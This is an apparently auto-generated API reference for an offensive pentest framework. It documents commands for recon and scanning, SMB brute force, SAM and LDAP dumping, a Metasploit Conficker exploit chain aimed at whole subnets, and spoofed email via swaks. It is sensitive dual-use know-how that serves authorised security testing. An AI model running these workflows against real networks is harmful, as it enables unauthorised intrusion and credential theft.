- If no self.params['domain'] is provided as an argument in `line`, prompts the user to input a self.params['domain'], defaulting to
    the previously extracted self.params['domain'].

5. **Execute 'alterx' on the self.params['domain']:**
- Executes the 'alterx' tool on the specified self.params['domain'] via a system command.
- The subdomain enumeration results are saved to a file in the 'sessions' directory, with the filename
    `subdomain_dic_<self.params['domain']>.txt`.

Parameters:
- line (str): The self.params['domain'] on which to run 'alterx'. If empty, the function prompts the user for input.

Returns:
- None: The function performs its operations but does not return any value.

Dependencies:
- The function relies on the external tool 'alterx' and assumes the presence of the `is_binary_present()`
and `get_domain()` helper functions.*
- `do_windapsearchscrapeusers` (line 951) `def do_windapsearchscrapeusers(self, line)` - *Extracts usernames from a JSON output generated by go-windapsearch and appends them
to the file sessions/users.txt.

The function loads the JSON file, parses the `sAMAccountName` attribute for each user, and appends
the username to the sessions/users.txt file.

:param line: Path to the JSON file (e.g., 'sessions/<dc_ip>_windap.json').
:returns: None*
- `do_cve` (line 987) `def do_cve(self, line)` - *Search for a CVE using the CIRCL API.

This function sends a GET request to the CIRCL API to retrieve CVE details
and prints relevant information to the screen.

:param line: A string containing the CVE ID (optional).
:returns: None*
- `do_serveralive2` (line 1036) `def do_serveralive2(self, line)` - *Command serveralive2: Uses Impacket to connect to a remote MSRPC interface and retrieves the server bindings.

This function allows the user to:
1. Establish a connection to a remote MSRPC interface using a specified target from self.params['rhost'].
2. Set the authentication level to none.
3. Retrieve and print the network addresses from the server bindings using the IObjectExporter.

Args:
    line (str): Unused in this context. The target is derived from self.params['rhost'].

Returns:
    None

Example:
    serveralive2*
- `do_binarycheck` (line 1070) `def do_binarycheck(self, line)` - *Performs various checks on a selected binary to gather information and protections.

This function executes the following checks:
1. Checks program protections using checksec.
2. Displays information about the ELF binary using readelf.
3. Retrieves the address of the system() function using objdump.
4. Searches for a known string within the binary using objdump.
5. Generates a cyclic pattern for padding using pwntools.
6. Lists gadgets in the binary using ROPgadget.

Parameters:
line (str): Command argument not used in this function.

Returns:
None*
- `do_dnstool_py` (line 1115) `def do_dnstool_py(self, line)` - *Executes the dnstool.py tool to modify Active Directory-integrated DNS records.

This function performs the following actions:
1. Checks if Krbrelayx is installed; if not, it clones the repository and installs dependencies.
2. Modifies DNS records by adding, removing, or querying based on the specified options.

Parameters:
line (str): Command arguments specifying the DNS action, target record, and data.
            Expected format:
                - hostname user password record action -options
                - Options include:
                - -a to add a record
                - -r to remove a record
                - --forest to target ForestDnsZones

Returns:
None*
- `do_metabigor` (line 1161) `def do_metabigor(self, line)` - *Executes Metabigor commands for OSINT and scanning tasks with guided input or predefined arguments.

This function performs the following actions:
1. Verifies the presence of Metabigor; if not installed, it clones the repository and installs the required dependencies.
2. Guides the user through selecting the type of task (IP discovery, related domains, scan, etc.), target, and additional parameters.
3. Constructs and executes the appropriate Metabigor command based on the user's input or the provided argument.

Parameters:
line (str): Command-line arguments for Metabigor. If not provided, interactive input will be used.

Returns:
None*
- `do_httprobe` (line 1237) `def do_httprobe(self, line)` - *Executes the httprobe tool to probe domains for working HTTP and HTTPS servers.

This function performs the following actions:
1. Verifies if httprobe is installed; if not, it installs the tool automatically.
2. Probes domains from the input file or standard input.
3. Simplifies the user experience by minimizing required commands and leveraging self.params for defaults.

Parameters:
line (str): Optional command arguments specifying the self.params['domain'] or just httprobe.
            Example usage:
            just provide the self.params['domain']: httprobe example.com

Returns:
None*
- `do_recon` (line 1280) `def do_recon(self, line)` - *Performs reconnaissance on a specified self.params['domain'] using crt.sh (the target must be visible on internet), pup, httprobe, and EyeWitness.

This function automates the process of gathering subdomains for a given self.params['domain'], verifying
their reachability, and generating a report using the EyeWitness tool.

Workflow:
    1. Determines the target self.params['domain'] from the `line` argument or defaults to `self.params['domain']`.
    2. Queries the crt.sh certificate transparency logs for subdomains using `curl`.
    3. Filters and extracts self.params['domain']-related text data using `pup`.
    4. Sorts and removes duplicate entries, then validates subdomains with `httprobe`.
    5. Saves the results to a temporary file.
    6. Executes EyeWitness to generate a web-based reconnaissance report for the subdomains.

Requirements:
    - `pup`: A command-line HTML parser.
    - `httprobe`: A tool to check live HTTP/HTTPS endpoints.
    - EyeWitness: A tool for generating web reconnaissance reports.

Parameters:
    line (str): The self.params['domain'] to target for reconnaissance. If omitted, the self.params['domain'] defaults to `self.params['domain']`.

Examples:
    1. Specify a self.params['domain'] directly:
        >>> recon self.params['domain'].com

    2. Use the default self.params['domain'] from self.params:
        >>> recon
Raises:
    None. Errors in execution will be logged or printed as part of the command output.*
- `do_dnschef` (line 1334) `def do_dnschef(self, line)` - *Executes the DNSChef tool to monitor DNS queries and intercept responses.

This function:
    - Installs DNSChef if not already installed.
    - Executes the DNSChef command with the provided parameters.
    - Displays the result in the terminal.

Behavior:
    - Requires `python3`, `python3-pip`, and `git` to be installed.
    - Uses parameters from `self.params` for self.params['domain'], username, password, and target.

Usage:
    dnschef*
- `do_ipinfo` (line 1369) `def do_ipinfo(self, line)` - *Retrieves detailed information about an IP address using the ARIN API.

This function takes an IP address as input, queries the ARIN API to get detailed
information about the IP, and then displays the organization name and the network
range associated with the IP.

Args:
    line (str): The command line input containing the IP address to query.

Returns:
    None

Raises:
    None

Example:
    >>> ipinfo 1.1.1.1*

#### `redteam_gym.py`
**Path:** `cli/commands/redteam_gym.py`
**File Doc:** *Red Team Gym CLI command set — gamified pentest training.  Integrates with the ELO/karma system and Docker lab scenarios to provide scored challenges with leaderboards, technique tracking, and skill progression.*

**Classes:**
- `RedTeamGymCommandSet` (line 32) `class RedTeamGymCommandSet(LazyOwnCommandSet)` - *Red Team Gym — scored pentest challenges with leaderboards.*

**Methods:**
- `do_gym` (line 39) `def do_gym(self, line)` - *Red Team Gym — gamified pentest training with ELO scoring.

Usage:
    gym list                    — show available challenges
    gym start <challenge_id>    — begin a challenge
    gym submit [--failed] [--techniques t1,t2,...]  — submit completed challenge
    gym status                  — show active challenge
    gym leaderboard [top_n]     — show top players
    gym hint                    — get a hint for the active challenge

Challenges award ELO that feeds into the existing karma system
(Noob -> Rookie -> Skidy -> Hacker -> Pro -> Elite -> Godlike).

Examples:
    gym list
    gym start first_blood_web
    gym submit --techniques sqli_manual,csrf_bypass
    gym leaderboard 10*
- `_gym_list` (line 83) `def _gym_list(self)` - *Display all available gym challenges.*
- `_gym_start` (line 117) `def _gym_start(self, args)` - *Begin a gym challenge.*
- `_gym_submit` (line 154) `def _gym_submit(self, args)` - *Submit a completed challenge for scoring.*
- `_gym_status` (line 198) `def _gym_status(self)` - *Show the currently active challenge.*
- `_gym_leaderboard` (line 223) `def _gym_leaderboard(self, args)` - *Show the gym leaderboard.*
- `_gym_hint` (line 257) `def _gym_hint(self)` - *Get the next hint for the active challenge.*

#### `resource_scripting.py`
**Path:** `cli/commands/resource_scripting.py`
**File Doc:** *Resource script commands — run .ls scripts, record macros, spool output.  Provides: resource <file>    — run an enhanced resource script makerc <file>      — record commands to a script (alias) spool <file|off>   — log output to file*

**Classes:**
- `ResourceCommandSet` (line 25) `class ResourceCommandSet(LazyOwnCommandSet)` - *Enhanced resource script execution and spooling.*

**Functions:**
- `on_cmd` (line 35) `def on_cmd(cmd)`
- `on_print` (line 39) `def on_print(msg)`

**Methods:**
- `_make_context` (line 31) `def _make_context(self)`
- `do_resource` (line 49) `def do_resource(self, line)` - *Run an enhanced resource script.

Usage: resource <script.ls> [--dry-run]

Supports variables ($var), conditionals (if/else/endif with real
expressions: ==, !=, =~, >, contains, defined), loops
(while/endwhile, for/endfor with break/continue), macros
(macro/endmacro/call), spool, sleep, echo, and comments (#).

Example:
    resource scripts/auto_recon.ls
    resource scripts/auto_recon.ls --dry-run*
- `do_makerc` (line 88) `def do_makerc(self, line)` - *Record session commands to a resource script.

Usage:
    makerc <script.ls>  — start recording commands into the script
    makerc off          — stop recording*
- `do_spool` (line 122) `def do_spool(self, line)` - *Log session output to a file.

Usage:
    spool <file>   — start logging to file
    spool off      — stop logging*
- `do_mkrc` (line 152) `def do_mkrc(self, line)` - *Alias for makerc — record commands to a script.*

#### `scan.py`
**Path:** `cli/commands/scan.py`
**File Doc:** *Scanning command set.  Phase-scoped home for the scanning operator commands (category ``02. Scanning & Enumeration``, kill-chain phase ``scan``). This module is an empty, active ``CommandSet`` scaffold: migrate one ``do_*`` method at a time out of ``lazyown.py`` into this class.  This set is a sibling of :class:`cli.commands.enum.EnumCommandSet`; both share the ``02. Scanning & Enumeration`` cmd2 category but differ by kill-chain phase (``scan`` vs ``enum``). Put broad host/service discovery and network scanners here; put targeted service enumeration in ``enum.py``.  Migration rule -------------- When you paste a ``do_<name>`` method here you MUST delete the original copy from ``lazyown.py`` in the same change. Registering the same command name on both the shell and an active ``CommandSet`` raises a duplicate-command error at startup. Decorate migrated methods with ``@cmd2.with_category(scanning_category)`` so they keep their help grouping, and rely on :class:`cli.commands._base.LazyOwnCommandSet` to forward ``self.params`` / ``self.cmd`` / other shell state once registered.  Discovery is automatic: :func:`cli.registry.register_command_sets` finds this class at startup, so no wiring change is needed as commands are added.*

**Classes:**
- `ScanCommandSet` (line 49) `class ScanCommandSet(LazyOwnCommandSet)` - *Scanning phase commands (migrate ``do_*`` here one at a time).*

**Methods:**
- `do_gobuster` (line 56) `def do_gobuster(self, line)` - *Uses `gobuster` for directory and virtual host fuzzing based on provided parameters. Supports directory enumeration and virtual host discovery.

:param line: The options and arguments for `gobuster`. The `line` parameter can include the following:
    - `url`: Perform directory fuzzing on a specified URL. Requires `url` and `dirwordlist` to be assign.
    - `vhost`: Perform virtual host discovery on a specified URL. Requires `url` and `dirwordlist` to be assign.
    - Any other argument: General directory fuzzing with additional parameters.

:returns: None

Manual execution:
To manually use `gobuster`, use the following commands:

1. For directory fuzzing:
    gobuster dir --url <url>/ --wordlist <wordlist>

Example:
    gobuster dir --url http://example.com/ --wordlist /path/to/dirwordlist

2. For virtual host discovery:
    gobuster vhost --append-domain -u <url> -w <wordlist> --random-agent -t 600

Example:
    gobuster vhost --append-domain -u http://example.com -w /path/to/dirwordlist --random-agent -t 600

3. For general directory fuzzing with additional parameters:
    gobuster dir --url http://<rhost>/ --wordlist <wordlist> <additional_parameters>

Example:
    gobuster dir --url http://10.10.10.10/ --wordlist /path/to/dirwordlist -x .php,.html*
- `do_arpscan` (line 129) `def do_arpscan(self, line)` - *Executes an ARP scan using `arp-scan`.

This function performs an ARP scan on the local network using the `arp-scan` tool. The network device to be used for scanning must be specified.

Usage:
    arpscan

:param line: Command parameters (not used in this function).
:type line: str

- Executes the `arp-scan` command with the specified network device.

:returns: None

Manual execution:
1. Ensure that the network device is assign using the appropriate parameter.
2. Run the method to perform an ARP scan.

Dependencies:
- `arp-scan` must be installed on the system.
- The `sudo` command must be available for executing `arp-scan`.

Examples:
    1. assign the device parameter using `assign device <network_device>`.
    2. Run `arpscan` to perform the ARP scan.

Note:
    - The network device must be configured and available on the system for the scan to work.
    - Ensure that `arp-scan` is installed and accessible from the command line.*
- `do_dirsearch` (line 170) `def do_dirsearch(self, line)` - *Runs the `dirsearch` tool to perform directory and file enumeration on a specified URL.

This function executes `dirsearch` to scan a given URL for directories and files, while excluding specific HTTP status codes from the results. If `dirsearch` is not installed, the function will attempt to install it before running the scan.

Usage:
    dirsearch <url>

:param line: Not used in this function. The URL is provided via the `url` parameter.
:type line: str
:returns: None

Manual execution:
1. If `dirsearch` is present, the command `dirsearch -u <url> -x 403,404,400` is executed.
2. If `dirsearch` is not present, the function installs `dirsearch` using `sudo apt install dirsearch -y` and then runs the command.

Dependencies:
- `dirsearch` must be installed. If not present, it will be installed using `sudo apt`.
- Ensure the URL is assign via the `url` parameter before calling this function.

Example:
    dirsearch http://example.com/

Note:
    - Ensure that the `url` parameter is assign before calling this function.
    - The `-x` option specifies HTTP status codes to exclude from the results (e.g., 403, 404, 400).
    - The function will attempt to install `dirsearch` if it is not already installed.*
- `do_dmitry` (line 213) `def do_dmitry(self, line)` - *This function constructs and executes a command for the 'dmitry' tool.
It first checks if the 'url' parameter is set. If not, it prints an error message.
If the 'url' is set, it extracts the domain from the URL using the get_domain function.
Then, it constructs a 'dmitry' command with the specified parameters and prepares it for execution.

Run a domain whois lookup (w), an IP whois lookup (i), retrieve Netcraft info (n), search for subdomains (s), search for email addresses (e), do a TCP port scan (p), and save the output to example.txt (o) for the domain example.com:

Parameters:
line (str): The command line input for this function.

Expected self.params keys:
- url (str): The URL to be used for the 'dmitry' command.

Example usage:
- assign url http://example.com
- do_dmitry*
- `do_feroxbuster` (line 248) `def do_feroxbuster(self, line)` - *Command feroxbuster: Installs and runs Feroxbuster for performing forced browsing and directory brute-forcing.

This function performs the following tasks:
1. Installs Feroxbuster using a `curl` command if it's not already installed.
2. Prompts the user for required inputs like the target URL, wordlist, file extensions, and additional options.
3. Executes Feroxbuster for directory enumeration and brute-force attacks.

Args:
    line (str): Optional argument for specifying the target URL, wordlist, and other Feroxbuster options.

Returns:
    None

Example:
    feroxbuster -u http://example.com -w wordlist.txt -x php,html*
- `do_nmapscript` (line 316) `def do_nmapscript(self, line)` - *Perform an Nmap scan using a specified script and port.

:param line: A string containing the Nmap script and port, separated by a space. Example: "http-enum 80".

:returns: None

Manual execution:
To manually run an Nmap scan with a script and port, use the following command format:

    nmap --script <script> -p <port> <target> -oN <output-file>

Example:
If you want to use the script `http-enum` on port `80` for the target `10.10.10.10`, you would run:

    nmap --script http-enum -p 80 10.10.10.10 -oN sessions/webScan_10.10.10.10

Ensure you have the target host (`rhost`) assign in the parameters and provide the script and port as arguments. The results will be saved in the file `sessions/webScan_<rhost>`.*
- `do_nuclei` (line 350) `def do_nuclei(self, line)` - *Executes a Nuclei scan on a specified target URL or host.

Usage:
    nuclei -u <URL> [-o <output file>] [other options]

If a URL is provided as an argument, it will be used as the target for the scan.
Otherwise, it will use the target specified in self.params["rhost"].*
- `do_amass` (line 392) `def do_amass(self, line)` - *Executes Amass to perform a passive enumeration on a given domain.

This function performs the following steps:
1. Executes the Amass tool with the provided domain for passive enumeration.
2. Saves the results to a file named 'results.txt' in the current directory.

Parameters:
line (str): The domain to be enumerated, e.g., 'example.com'.

Returns:
None*
- `do_bbot` (line 422) `def do_bbot(self, line)` - *Executes a BBOT scan to perform various reconnaissance tasks.

This function leverages BBOT, a reconnaissance tool, to perform tasks such as subdomain enumeration,
email gathering, web scanning, and more. It dynamically determines the operation based on user input
and executes the appropriate BBOT commands.

Parameters:
    line (str): User input specifying the target and optional presets or configurations.

Usage:
    bbot -t <target> -p <preset>

    Examples:
        bbot -t evilcorp.com -p subdomain-enum
        bbot -t evilcorp.com -p email-enum spider web-basic*
- `do_osmedeus` (line 473) `def do_osmedeus(self, line)` - *Executes Osmedeus scans with guided input for various scanning scenarios.

This function performs the following actions:
1. Verifies the presence of Osmedeus; if not installed, it clones the repository
and installs the required dependencies.
2. Guides the user through selecting the type of scan, target, and any additional
parameters needed for the scan.
3. Constructs and executes the appropriate Osmedeus command.

Parameters:
line (str): Command-line arguments for the tool. If not provided, interactive
            input will be used.

Returns:
None*
- `do_magicrecon` (line 548) `def do_magicrecon(self, line)` - *Command magicrecon: Automates the setup and usage of MagicRecon to perform various types of reconnaissance and vulnerability scanning on specified targets.

This function performs the following tasks:
1. Clones and installs MagicRecon if not already installed.
2. Prompts the user to input the target domain, list, or wildcard if not provided.
3. Executes MagicRecon with the specified options for target reconnaissance and vulnerability analysis.
4. Supports notifications through Discord, Telegram, or Slack if configured.

Args:
    line (str): Command-line arguments specifying the target and recon mode. If not provided, the function prompts the user for required inputs.

Returns:
    None

Example:
    magicrecon -d example.com -a*
- `do_hostdiscover` (line 606) `def do_hostdiscover(self, line)` - *Discover active hosts in a subnet by performing a ping sweep.

This method constructs and executes a bash script that performs a
ping sweep on the specified subnet to identify active hosts. The
subnet is determined from the 'rhost' parameter. For each host in
the subnet, a ping request is sent, and active hosts are reported.

Parameters:
- line (str): The input line argument is not used in this function.

Behavior:
- Extracts the first three octets of the 'rhost' parameter to form
the base IP pattern.
- Constructs a bash script to ping each IP address in the subnet
(from .1 to .254) and reports active hosts.
- The generated bash script is displayed to the user.
- Prompts the user to confirm whether they want to execute the
generated command.
- If the user confirms, executes the command using `self.cmd()`.
- If the user declines, copies the command to the clipboard using
`copy2clip()`.

Side Effects:
- Executes system commands and may affect the system environment.
- May modify the clipboard content if the user chooses not to execute.

Notes:
- Ensure that the 'rhost' parameter is a valid IP address and that
the `check_rhost()` function is implemented to validate the IP.
- `print_msg()` is used to display the constructed command to the
user.
- `copy2clip()` is used to copy the command to the clipboard if
not executed.

Example:
>>> do_hostdiscover("example_input")*
- `do_portdiscover` (line 664) `def do_portdiscover(self, line)` - *Scan all ports on a specified host to identify open ports.

This method constructs and executes a bash script that performs a
port scan on the specified host to determine which ports are open.
It scans all ports from 0 to 65535 and reports any that are open.

Parameters:
- line (str): The input line argument is not used in this function.

Behavior:
- Extracts the 'rhost' parameter to determine the target IP address.
- Constructs a bash script to scan all ports on the target IP address
and report open ports.
- The generated bash script is displayed to the user.
- Prompts the user to confirm whether they want to execute the
generated command.
- If the user confirms, executes the command using `self.cmd()`.
- If the user declines, copies the command to the clipboard using
`copy2clip()`.

Side Effects:
- Executes system commands and may affect the system environment.
- May modify the clipboard content if the user chooses not to execute.

Notes:
- Ensure that the 'rhost' parameter is a valid IP address and that
the `check_rhost()` function is implemented to validate the IP.
- `print_msg()` is used to display the constructed command to the
user.
- `copy2clip()` is used to copy the command to the clipboard if
not executed.

Example:
>>> do_portdiscover("example_input")*
- `do_portservicediscover` (line 724) `def do_portservicediscover(self, line)` - *Scan all ports on a specified host to identify open ports and associated services.

This method constructs and executes a bash script that performs a
port scan on the specified host to determine which ports are open
and identifies any services running on those open ports. It scans
all ports from 0 to 65535.

Parameters:
- line (str): The input line argument is not used in this function.

Behavior:
- Extracts the 'rhost' parameter to determine the target IP address.
- Constructs a bash script to scan all ports on the target IP address
and report open ports along with any associated services.
- The generated bash script is displayed to the user.
- Prompts the user to confirm whether they want to execute the
generated command.
- If the user confirms, executes the command using `self.cmd()`.
- If the user declines, copies the command to the clipboard using
`copy2clip()`.

Side Effects:
- Executes system commands and may affect the system environment.
- Requires `sudo` privileges to use `lsof` for identifying services.
- May modify the clipboard content if the user chooses not to execute.

Notes:
- Ensure that the 'rhost' parameter is a valid IP address and that
the `check_rhost()` function is implemented to validate the IP.
- `print_msg()` is used to display the constructed command to the
user.
- `copy2clip()` is used to copy the command to the clipboard if
not executed.

Example:
>>> do_portservicediscover("example_input")*
- `do_skipfish` (line 789) `def do_skipfish(self, line)` - *This function executes the web security scanning tool Skipfish
using the provided configuration and parameters. It allows
scanning a specified target (rhost) and saves the results
in a designated output directory.

Parameters:
- self: Refers to the instance of the class in which this function is defined.
- line: A string that may contain additional options to modify the scanning behavior.

Function Flow:
1. Default values are set for the target IP (rhost), port (port), and output directory (outputdir).
2. The validity of the target (rhost) is checked using the `check_rhost` function.
3. If no argument is provided in `line`, a `skipfish` command is constructed using the default values.
4. If `line` starts with 'url', the URL configured in `self.params['url']` is retrieved and used to construct the `skipfish` command.
5. If the URL is not configured and an attempt is made to use the 'url' option, an error message is printed, and the function exits.
6. The constructed `skipfish` command is displayed on the console and executed using `os.system`.

Note:
- The function assumes that the `skipfish` tool is installed on the system.
- The output of the scan is saved in the directory `sessions/{rhost}/skipfish/`.
- The wordlist used by Skipfish is specified in `wordlist`.*
- `do_vscan` (line 839) `def do_vscan(self, line)` - *Perform port scanning using vscan with the provided parameters.

:param line: This parameter is not used in the function but can be reserved for future use.

:returns: None

Manual execution:
To manually run `vscan` for port scanning, use the following command:

    ./vscan -host <hosts> -p <ports>

This function prompts the user for the target hosts and ports, and executes the vscan command accordingly.*

#### `scan_migrated.py`
**Path:** `cli/commands/scan_migrated.py`
**File Doc:** *scan commands migrated from lazyown.py.  Auto-generated by scripts/migrate_lazyown.py.*

**Classes:**
- `ScanMigratedCommandSet` (line 29) `class ScanMigratedCommandSet(LazyOwnCommandSet)`

**Functions:**
- `find_tgts` (line 533) `def find_tgts(subnet)` - *Finds and returns a list of target hosts with port 445 open in the specified subnet.

Args:
    subnet (str): The subnet to scan, e.g., '192.168.1.0/24'.

Returns:
    list: A list of IP addresses where port 445 is open.*
- `setup_handler` (line 559) `def setup_handler(config_file, lhost, lport)` - *Sets up a Metasploit multi/handler configuration in the given config file.

Args:
    config_file (file-like object): The file object to write the Metasploit handler configuration to.
    self.params['lhost'] (str): The local host IP address to listen for incoming connections.
    lport (int): The local port number to listen for incoming connections.

Writes:
    - Exploit configuration for Metasploit to the provided file.*
- `conficker_exploit` (line 579) `def conficker_exploit(config_file, host, lhost, lport)` - *Configures and writes a Metasploit exploit for the Conficker vulnerability to the given config file.

Args:
    config_file (file-like object): The file object to write the Metasploit exploit configuration to.
    host (str): The target host IP address to exploit.
    lhost (str): The local host IP address to listen for incoming connections.
    lport (int): The local port number to listen for incoming connections.

Writes:
    - Exploit configuration for the Conficker vulnerability (MS08-067) to the provided file.*
- `smb_brute` (line 599) `def smb_brute(config_file, host, passwd_file, lhost, lport)` - *Configures and writes a Metasploit SMB brute force exploit for the given host to the provided config file.

Args:
    config_file (file-like object): The file object to write the Metasploit exploit configuration to.
    host (str): The target host IP address to exploit.
    passwd_file (str): Path to a file containing a list of passwords to use for brute force.
    lhost (str): The local host IP address to listen for incoming connections.
    lport (int): The local port number to listen for incoming connections.

Writes:
    - Exploit configuration for SMB brute force (using the psexec module) to the provided file for each password in the passwd_file.*
- `install_netexec` (line 996) `def install_netexec()`
- `install_netexec_pipx` (line 1001) `def install_netexec_pipx()`

**Methods:**
- `do_cme` (line 34) `def do_cme(self, line)` - *Execute CrackMapExec (CME) for SMB enumeration and authentication attempts against a target.

This function provides a range of SMB operations using CME, including:
1. RID brute-forcing, which attempts to enumerate users via RID cycling.
2. Share enumeration to list SMB shares on the target.
3. User authentication to verify credentials against the target.
4. Brute-force authentication using username and password lists.
5. Hash-based authentication to attempt access using an NTLM hash.

Parameters:
line (str): Specifies the action to perform, which can be one of the following:
            - "rid": Enumerates users by attempting RID brute-force.
            - "shares": Lists SMB shares on the target.
            - "user": Verifies credentials from a stored credential file or prompts for a username and password.
            - "brute": Attempts brute-force authentication using a user and password dictionary.
            - "hash": Attempts authentication using an NTLM hash file.
            If no valid option is provided, the function defaults to performing basic SMB enumeration.

Returns:
None

Manual Execution Example:
To manually run CrackMapExec for SMB enumeration, use:

    crackmapexec smb <target>

Example:
    crackmapexec smb 10.10.11.24

This command performs basic SMB enumeration and checks against the specified target IP address.*
- `do_ldapdomaindump` (line 173) `def do_ldapdomaindump(self, line)` - *Dumps LDAP information using `ldapdomaindump` with credentials from a file.

:param line: The self.params['domain'] to use for authentication (e.g., 'self.params['domain'].local').

:returns: None

Manual execution:
To manually run `ldapdomaindump` for LDAP enumeration, use the following command:

    ldapdomaindump -u '<self.params['domain']>\<username>' -p '<password>' <target>

Example:
    ldapdomaindump -u 'self.params['domain'].local\Administrator' -p 'passadmin123' 10.10.11.23

Ensure you have a file `sessions/credentials.txt` in the format `user:password`, where each line contains credentials for the LDAP enumeration.*
- `do_bloodhound` (line 215) `def do_bloodhound(self, line)` - *Perform LDAP enumeration using bloodhound-python with credentials from a file.

:param line: This parameter is not used in the function but could be used for additional options or self.params['domain'] information.

:returns: None

Manual execution:
To manually run `bloodhound-python` for LDAP enumeration, use the following command:

    bloodhound-python -c All -u '<username>' -p '<password>' -ns <target>

Example:
    bloodhound-python -c All -u 'usuario' -p 'password' -ns 10.10.10.10

Ensure you have a file `sessions/credentials.txt` with the format `user:password`, where each line contains credentials for enumeration.*
- `do_swaks` (line 264) `def do_swaks(self, line)` - *Sends an email using `swaks` (Swiss Army Knife for SMTP).

This method constructs and executes a `swaks` command to send an email from an attacker’s address
to a victim’s address, with a specified message body. The command is executed using the SMTP server
address provided in the parameters.

Parameters:
- `line`: (str) Input line that is not used in this function.

Functionality:
1. Retrieves the SMTP server address (`self.params['rhost']`) from the object's parameters.
2. Checks if the server address is valid using `check_rhost()`.
3. Prompts the user for the sender's email address (`from_attacker`).
4. Prompts the user for the recipient's email address (`to_victim`).
5. Prompts the user for the message body (`body`).
6. Constructs the `swaks` command with the provided options.
7. Executes the command using `self.cmd()`.
8. Copies the command to the clipboard using `copy2clip()`.

Example usage:
>>> do_swaks("line")

swaks --from attacker@hell.com --to victim@heaven.com,victim2@heaven.com,victim3@heaven.com   --body "testing" --server 127.0.0.1*
- `do_samrdump` (line 303) `def do_samrdump(self, line)` - *Run `impacket-samrdump` to dump SAM data from specified ports.

This function executes `impacket-samrdump` to retrieve SAM data from the target host on ports 139 and 445. It first checks if the `self.params['rhost']` parameter is valid, and if so, it runs the command for both ports.

Usage:
    samrdump <target_host>

:param line: The target host to dump SAM data from.
:type line: str
:returns: None

Manual execution:
To manually run this task, specify the target host. The function will attempt to dump SAM data from the host on ports 139 and 445.
impacket-samrdump -port 445 10.10.10.10
Note: Ensure that `impacket-samrdump` is installed and properly configured on your system.*
- `do_lynis` (line 358) `def do_lynis(self, line)` - *Performs a Lynis audit on the specified remote system.

This function executes the `modules/lazylynis.sh` script with the target host defined in the `self.params['rhost']` parameter. It is used to perform a security audit of the remote system using Lynis.

Usage:
    lynis

:param line: This parameter is not used in the current implementation.
:type line: str
:returns: None

Manual execution:
To manually run this task, ensure that the `modules/lazylynis.sh` script is available and executable. Provide the target host in the format `lynis`.
sudo lynis audit system remote 10.10.10.10 more info check modules/lazylynis.sh
Note: The function assumes that `self.params['rhost']` is a valid host address. If `self.params['rhost']` is not valid, it will print an error message. For more details, check `modules/lazylynis.sh`.*
- `do_snmpcheck` (line 387) `def do_snmpcheck(self, line)` - *Performs an SNMP check on the specified target host.

This function executes the `snmp-check` command against the target host defined in the `self.params['rhost']` parameter.

Usage:
    snmpcheck

:param line: This parameter is not used in the current implementation.
:type line: str
:returns: None

Manual execution:
To manually run this task, ensure that `snmp-check` is installed and provide a target host in the format `snmpcheck`.
snmp-check 10.10.10.10
Note: The function assumes that `self.params['rhost']` is a valid host address. If `self.params['rhost']` is not valid, it will print an error message.*
- `do_snmpwalk` (line 414) `def do_snmpwalk(self, line)` - *Performs an SNMP check on the specified target host.

This function executes the `snmp-check` command against the target host defined in the `self.params['rhost']` parameter.

Usage:
    snmpwalk

:param line: This parameter is not used in the current implementation.
:type line: str
:returns: None

Manual execution:
To manually run this task, ensure that `snmpwalk -v 2c -c public` is installed and provide a target host in the format `snmpcheck`.
snmpwalk -v 2c -c public 10.10.10.10
Note: The function assumes that `self.params['rhost']` is a valid host address. If `self.params['rhost']` is not valid, it will print an error message.*
- `do_smtpuserenum` (line 441) `def do_smtpuserenum(self, line)` - *Enumerates SMTP users using the `smtp-user-enum` tool with the VRFY method.

1. Checks if the `self.params['rhost']` (remote host) parameter is set:
- If not set, displays an error message and exits the function.

2. Checks if the `usrwordlist` (user wordlist) parameter is provided:
- If not provided, displays an error message indicating that the `p` or `payload` parameter should be used to load payloads.

3. If both parameters are provided:
- Displays the command that will be executed for user enumeration.
- Runs `sudo smtp-user-enum -M VRFY -U <usrwordlist> -t <self.params['rhost']>` to perform user enumeration.

:param line: Not used in this function.
:type line: str
:returns: None

Manual execution:
To manually run these tasks, you would need to:
- Ensure that the `self.params['rhost']` parameter is assign with the target IP address using `set self.params['rhost'] <IP>`.
- Load the user wordlist using the `assign usrwordlist <path>` command.
- Execute the command `sudo smtp-user-enum -M VRFY -U <usrwordlist> -t <self.params['rhost']>`.
- Ex: sudo smtp-user-enum -M VRFY -U /usr/share/wordlists/SecLists-master/Usernames/xato-net-10-million-usernames.txt -t 10.10.10.10
Note: Ensure that you have the necessary permissions to run `smtp-user-enum` with `sudo` and that the wordlist file exists at the specified path.*
- `do_sessionssh` (line 480) `def do_sessionssh(self, line)` - *Execute a command to list active SSH connections.

This method uses `netstat` to display established (`ESTAB`) connections and filters the results to show only SSH connections.

Parameters:
- line: Unused parameter in this function.

Returns:
- None

Examples:
>>> do_sessionssh("")
(Displays active SSH connections in the console)*
- `do_smbattack` (line 504) `def do_smbattack(self, line)` - *Scans for hosts with SMB service open on port 445 in the specified target network.

This function performs the following actions:
1. Scans the specified subnet for hosts with an open SMB port (445).
2. Sets up a Metasploit handler to listen for reverse connections.
3. Attempts to exploit the Conficker vulnerability on each identified host.
4. Optionally conducts a brute-force attack on SMB using the provided password file.

Parameters:
line (str): The command line input for the smbattack function,
            though not used directly in this implementation.

Returns:
None*
- `do_parsero` (line 648) `def do_parsero(self, line)` - *Executes a parsero scan on a specified target URL or host.

Usage:
    parsero -u <URL> [-o <output file>] [other options]

If a URL is provided as an argument, it will be used as the target for the scan.
Otherwise, it will use the target specified in self.params['rhost'].*
- `do_changeme` (line 680) `def do_changeme(self, line)` - *Executes a changeme scan on a specified target URL or host.

Usage:
    changeme [-o <output file>] --oa -t 20 self.params['rhost']

If a URL is provided as an argument, it will be used as the target for the scan.
Otherwise, it will use the target specified in self.params['rhost'].*
- `do_enum4linux_ng` (line 711) `def do_enum4linux_ng(self, line)` - *Performs enumeration of information from a target system using `enum4linux-ng`.

1. Executes the `enum4linux-ng` command with the `-A` option to gather extensive information from the specified target.

:param line: This parameter is not used in the current implementation but could be used to pass additional options or arguments if needed.
:param self.params['rhost']: The target host for enumeration, specified in the `params` dictionary.

:returns: None

Manual execution:
To manually enumerate information from a system, use the following command:
    enum4linu-ng -A <target_host>

Replace `<target_host>` with the IP address or hostname of the target system.

For example:
    enum4linux-ng -A 192.168.1.10*
- `do_fuzz` (line 751) `def do_fuzz(self, line)` - *Executes a web server fuzzing script with user-provided parameters.

This function prompts the user for the necessary parameters to run the fuzzing script,
including the target IP, port, HTTP method, directory, file extension, and expected status codes.

Usage:
    fuzzing

Parameters:
